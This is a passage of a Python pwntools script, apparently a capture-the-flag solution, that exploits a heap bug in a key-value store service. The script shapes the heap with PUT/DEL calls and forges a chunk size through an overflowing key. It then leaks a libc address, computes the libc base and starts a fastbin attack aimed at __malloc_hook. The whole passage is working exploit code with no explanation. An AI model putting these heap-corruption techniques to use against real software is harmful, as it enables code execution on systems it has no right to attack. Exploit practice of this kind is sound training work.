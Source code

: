 ```python
    p.sendline(str(size))
    p.recvuntil('data:')
    if len(data) < size:
        p.send(data.ljust(size, '\x00'))
    else:
        p.send(data)


def delete(key):
    cmd('DEL')
    p.recvuntil('key:')
    p.sendline(key)


def get(key):
    cmd('GET')
    p.recvuntil('key:')
    p.sendline(key)
    p.recvuntil('[')
    num = int(p.recvuntil(' bytes').strip(' bytes'))
    p.recvuntil(':\n')
    return p.recv(num)


def main():
    # avoid complicity of structure malloc
    for i in range(10):
        put(str(i), 0x38, str(i))
        
    for i in range(10):
        delete(str(i))

    # allocate what we want in order
    put('1', 0x200, '1')
    put('2', 0x50, '2')
    put('5', 0x68, '6')
    put('3', 0x1f8, '3')
    put('4', 0xf0, '4')
    put('defense', 0x400, 'defense-data')


    # free those need to be freed
    delete('5')
    delete('3')
    delete('1')

    delete('a' * 0x1f0 + p64(0x4e0))

    delete('4')

    put('0x200', 0x200, 'fillup')
    put('0x200 fillup', 0x200, 'fillup again')

    libc_leak = u64(get('2')[:6].ljust(8, '\x00'))
    p.info('libc leak: 0x%x' % libc_leak)
    
    libc_base = libc_leak - 0x3c4b78

    p.info('libc_base: 0x%x' % libc_base)

    put('fastatk', 0x100, 'a' * 0x58 + p64(0x71) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x10 + 5 - 8))
    put('prepare', 0x68, 'prepare data')
```